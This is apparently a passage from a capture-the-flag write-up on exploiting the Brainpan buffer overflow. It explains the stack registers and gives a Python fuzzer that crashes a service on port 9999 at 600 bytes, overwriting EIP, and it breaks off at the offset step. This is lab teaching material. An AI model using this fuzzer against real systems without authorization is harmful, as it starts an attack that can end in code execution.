- Remember in python3 you need to encode the payload
- fuzzing crashed at 600 bytes
- EIP Successful overrided with As (41)

-   `Extended Stack Pointer (ESP)`

ESP denotes the address where the next data has to be entered into the stack and holds the top of the stack. This is the point where the instructions which use the stack (PUSH, POP, CALL and RET).

-   `Buffer Space`

A stack buffer is a type of buffer or temporary location created within a computer’s memory for storing and retrieving data from the stack. It enables the storage of data elements within the stack, which can later be accessed programmatically by the program’s stack function or any other function calling that stack. Any information placed into the buffer space should never travel outside of the buffer space itself.

-   `Extended Base Pointer (EBP)`

EBP denotes the address of the location where the first data has to be entered into the stack.

-   `Extended Instruction Pointer (EIP) / Return Address`

EIP denotes the address of next instruction has to be executed into the stack.

![image]( /assets/img/brainpan/Pasted image 20210609231540.png)


```python
import sys, socket
import time

buffer = "A" * 100

while True:

 try:
     s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
     s.connect(('127.0.0.1',9999))
     s.recv(1024)
     buffer = buffer + "A" * 100
     s.send(buffer.encode('utf-8'))
     s.close()
     time.sleep(1)
     print("Fuzzing passed %s bytes" % str(len(buffer)))

 except Exception as ex:

        print("Fuzzing crashed at %s bytes" % str(len(buffer)))
        print(ex)
        sys.exit()
```

#### Offset

- The fuzzing stopped at 600 byres so we will use 600  bytes for pattern length
- generate a pattern
